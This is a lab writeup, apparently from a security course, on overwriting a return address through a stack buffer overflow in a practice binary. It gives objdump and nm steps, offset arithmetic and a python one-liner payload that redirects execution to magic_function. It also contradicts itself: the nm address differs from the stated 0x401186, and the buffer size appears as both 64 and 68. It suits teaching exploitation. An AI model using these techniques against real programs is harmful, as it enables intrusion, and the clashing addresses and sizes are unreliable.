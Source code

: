 ```yaml
---
nav_order: 1
parent: 'Task: Overwrite Return Address'
---
```


# Writeup

First use this command to scan the executable:

> ```Bash
> objdump -M intel -d break_this
> ```

- The `main()` function only calls `read_buffer()`.
- This function reads the length of a buffer from standard input into a variable `n`.
- Then it reads the buffer itself (`char buffer[64]`).
- Because `fgets()` reads at most `n - 1` characters, we can set `n` to a value bigger than the length of the buffer, so an overflow may be possible.
- We will set `n` to a large enough value: `120`

- `magic_function()` starts at address `0x401186`
- From the first 3 lines from `read_buffer()` we get that: `rbp` gets pushed on the stack, then the stack is extended by `0x60` = `96`
- So we must print `96 + 8 = 104` dummy characters `A` and then the address of `magic_function()` in little-endian encoding

```console
student@hsi:/.../overwrite-ret-addr/support$ nm break_this | grep magic_function
080491d6 T magic_function
```

However, keep in mind that the stack alignment is 16 bytes for `x64` systems, so the `buffer` variable along with the other four will be aligned to 16 bytes. This is how the variable placement looks like after the stack is aligned:

```c
char buffer[68];                // [rsp+0h] [rbp-60h] BYREF
int n;                          // [rsp+44h] [rbp-1Ch] BYREF
size_t len;                     // [rsp+48h] [rbp-18h]
unsigned int disorienting_var;  // [rsp+54h] [rbp-Ch]
size_t i;                       // [rsp+58h] [rbp-8h]
```

Also make sure to properly pack the address of `magic_function()` in little-endian format (8 bytes). (0x0000000000401186)

``` Bash
python2.7 -c 'print "120\n" + "A" * 104 + "\x86\x11\x40\x00\x00\x00\x00\x00"' > payload
```

